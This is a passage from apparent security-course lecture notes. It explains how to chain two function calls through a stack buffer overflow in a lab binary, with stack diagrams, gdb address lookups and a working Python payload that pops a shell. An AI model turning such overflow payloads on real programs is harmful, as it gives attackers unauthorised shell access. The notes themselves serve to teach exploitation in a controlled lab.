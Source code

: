 ``` c
}

void main(int argc, char * argv[]){
  pwn[0]='\0';
  vuln(argv[1]);
}
```

This time we need to first call bin<sub>sh</sub>() with magicbeef being
deadbeef and then we need to call bad() afterward to get our shell.
This might seem like no problem, at first, but once we try it out,
you'll see where the challenge arises.

Starting with the easy part, we can look at what the stack should be to
properly call bin<sub>sh</sub>:

``` example
|      0xdeadbeef       |
|  bin_sh's ret address |
|     <addr bin_sh>     |
```

We overwrite the return address of vuln() with the address of
bin<sub>sh</sub>() where its argument is 0xdeadbeef. In the
last example, we didn't consider the return address of the function we
jumped to, but this time we have to. What is the next function we call?
bad(). So what we really need for the stack is to look like this.

``` example
|     <addr pwn>        |
|      0xdeadbeef       |
|     <addr bad>        |
|     <addr bin_sh>     |
```

If you follow the stack, the argument to bin<sub>sh</sub>() is
0xdeadbeef and its return address is bad(). The argument to bad() is
`pwn`, and the return address for bad is 0xdeadbeef, which doesn't
matter because at this point we have the shell.

Let's give it a try:

``` example
user@si485H-base:demo$ gdb -q call_bad_chain
Reading symbols from call_bad_chain...done.
(gdb) x/x pwn
0x804a060 <pwn>:    0x00000000
(gdb) x/x bad
0x8048505 <bad>:    0x83e58955
(gdb) x/x bin_sh
0x80484ad <bin_sh>: 0x57e58955
(gdb) quit
user@si485H-base:demo$ ./call_bad_chain `python -c "print 'A'*(0x6c+4) + '\xad\x84\x04\x08' +'\x05\x85\x04\x08' +'\xef\xbe\xad\xde' + '\x60\xa0\x04\x08'"`
Buf: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?ﾭ?`?
pwn: /bin/sh
You've been PWNED!
$ 
```
